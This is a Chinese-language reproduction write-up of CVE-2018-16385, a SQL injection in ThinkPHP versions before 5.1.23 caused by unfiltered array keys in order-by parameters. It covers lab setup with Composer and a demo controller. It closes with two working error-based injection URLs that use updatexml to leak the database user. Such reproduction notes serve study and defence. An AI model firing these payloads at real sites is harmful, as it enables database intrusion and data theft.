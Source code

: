 ```yaml
---
title: （CVE-2018-16385）Thinkphp < 5.1.23 sql注入漏洞
id: zhfly3169
---
```


# （CVE-2018-16385）Thinkphp 5.1.x SQL注入

## 一、漏洞简介

在ThinkPHP5.1.23之前的版本中存在SQL注入漏洞，该漏洞是由于程序在处理order by 后的参数时，未正确过滤处理数组的key值所造成。如果该参数用户可控，且当传递的数据为数组时，会导致漏洞的产生。

## 二、漏洞影响

ThinkPHP < 5.1.23

## 三、复现过程

### 环境搭建

#### 1.下载安装thinkphp5.1.x

对于thinkphp5.1.x完整版，目前官方没有直接下载的链接。Github上只是放出核心版。该版本需要以Composer或Git方式进行安装。

这里以Composer安装方式说明。

在 Linux 和 Mac OS X 中可以运行如下命令：

```
curl -sS https://getcomposer.org/installer | php `mv composer.phar/usr/local/bin/composer` 
```

在 Windows 中，你需要下载并运行 Composer-Setup.exe 。

安装好之后，切换路径到WEB目录下运行：

```
composercreate-project topthink/think=5.1.1 tp5.1 --prefer-dist 
```

然后会生成一个名为tp5.1的文件夹。到此think5.1.1下载成功。

#### 2.然后在浏览器中访问

![image](../img/505f3d280bad3198c0c7d8e58df6786b.png)

image.png如果出现该页面，则证明安装成功。

#### 3.Demo示例

![image](../img/1951a98ac248ee86b94f31374aaa1ecd.png)

编写Demo文件，并将文件命名为Test.php，然后放在/tp5.1/application/index/controller/目录下。

#### 4.数据库

与Demo文件匹配，需要创建一个user表，然后设一个字段(id)。

![image](../img/8c407e32eb23d9a8a4918ea0be1dce34.png)

### Payload构造

根据以上分析，构造payload需要满足以下条件：

1.传入的$order需要是一个数组。

2.$val 必须也是数组。

3.至少知道数据库表中的一个字段名称，并且传入两个参数。

4.闭合 ` 。

最终Payload构造如下：

```
http://0-sec.org/tp5.1/public/index/test/index?order[id`,111)|updatexml(1,concat(0x3a,user()),1)%23][]=1 
```

或

```
http://0-sec.org/tp5.1/public/index/test/index?order[id`,'aaa')| updatexml(1,concat(0x3a,user()),1)%23][]=1 
```